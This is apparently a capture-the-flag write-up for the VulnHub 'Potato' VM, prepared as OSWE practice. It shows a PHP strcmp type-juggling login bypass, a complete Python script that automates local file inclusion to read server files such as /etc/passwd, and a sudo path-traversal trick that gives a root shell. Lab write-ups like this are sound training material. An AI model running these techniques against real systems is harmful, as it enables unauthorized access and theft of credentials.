

Potato is another vm designed to train to OSWE exam!

VM name : Potato
Type: Boot to Root
DHCP : Enabled
Difficulty : Easy to medium
Goal: 2 flags (user.txt and root.txt)

This VM has been tested with VirtualBox

# Diagram



# Enumeration

Let's get the box ip with `arp-scan`

```sh
arp-scan -I eth1 192.168.56.100/24
```


First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 192.168.56.154 -p-
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 2112

We login as anonymous

```sh
ftp 192.168.56.154 2112
```


We download the two files


And the index.php is very interesting


```php
<?php

$pass= "potato"; //note Change this password regularly

if($_GET['login']==="1"){
  if (strcmp($_POST['username'], "admin") == 0  && strcmp($_POST['password'], $pass) == 0) {
    echo "Welcome! </br> Go to the <a href=\"dashboard.php\">dashboard</a>";
    setcookie('pass', $pass, time() + 365*24*3600);
  }else{
    echo "<p>Bad login/password! </br> Return to the <a href=\"index.php\">login page</a> <p>";
  }
  exit();
}
?>
```

## Port 80

We try to open it on the browser


Just a normal page

### Gobuster

Let's start crafting a little more on the box to see if we can enum more things do explore. I use zip, because I know that possible we will need to get the source code from anywhere.

```sh
gobuster dir -t 100 -u http://192.168.56.154 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,zip
```


We found a bunch of directories in it. Fine. All of them we must be logged in to access. So, let's go deeper in the login tab now

## /admin

Accesing it we get a login page


We just test a random login `admin:123456`


Got an error


In burp we see that


Looking at the code we extract earlier from the ftp server we see something interesting

```php
if (strcmp($_POST['username'], "admin") == 0  && strcmp($_POST['password'], $pass) == 0) {
```

It uses strcmp to compare the admin and password.

We found an excelent blog from [owasp](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf) which explains the TYPE JUGGLING in this case


So what we just need to do is to chagne the password to an array, and it will be setted to zero, null.

# Auth Bypass


Got it! We did the Auth Bypass in this app.

Ok, now we are in


# LFI Vulnerability

After spending some time enumerating the server we found a LFI in the log page


Let's make a python script to auto LFI, because it's better to get the files on the file system

Here it's


auto_lfi.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto File Read LFI
# Potato - VulnHub

import argparse
import requests
import sys
from bs4 import BeautifulSoup

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Function to login as admin
def loginAdmin(rhost):
    print("[+] Just Logging In ! [+]")
    url = "http://%s:80/admin/index.php?login=1" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "admin", "password[]": "admin"}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] Logged In ! [+]")

# Let's read files!
def readFile(rhost):
    url = "http://%s:80/admin/dashboard.php?page=log" %rhost
    print("[+] Type exit to exit ! [+]")
    prefix = "Reading file: "
    file = ""
    while True:
        file = input(prefix)
        if file != "exit":
            data = {"file": "/../../../../../../..%s" %file}
            headers = {"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"}
            output = r.post(url,headers=headers,data=data,proxies=proxies)
            soup = BeautifulSoup(output.text, 'lxml')
            container = soup.find('pre')
            if len(container) == 0:
                print()
                print("[+] File does NOT EXIST !!! Or I can't read it !!! [+]")
                print()
            else:
                container = str(container)
                container = container.removesuffix("</pre>")
                container = container.removeprefix("<pre>")
                print()
                print(container)
        else:
            print()
            print("[+] Exxxxitting.... !! [+]")
            print()
            break

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()

    rhost = args.target

    '''Here we call the functions'''
    # Just login
    loginAdmin(rhost)
    # Read LFI
    readFile(rhost)

if __name__ == '__main__':
    main()
```

# Root

We got the /etc/passwd and it has a password in it


```
webadmin:$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/:1001:1001:webadmin,,,:/home/webadmin:/bin/bash
```

It's possible md5 unix


We crack it


Login in the ssh server


We find a command which we can execute as root in this box, with `sudo -l`


And we become root

```sh
echo "/bin/bash" >> root.sh
chmod +x root.sh
sudo /bin/nice /notes/../home/webadmin/root.sh 
```

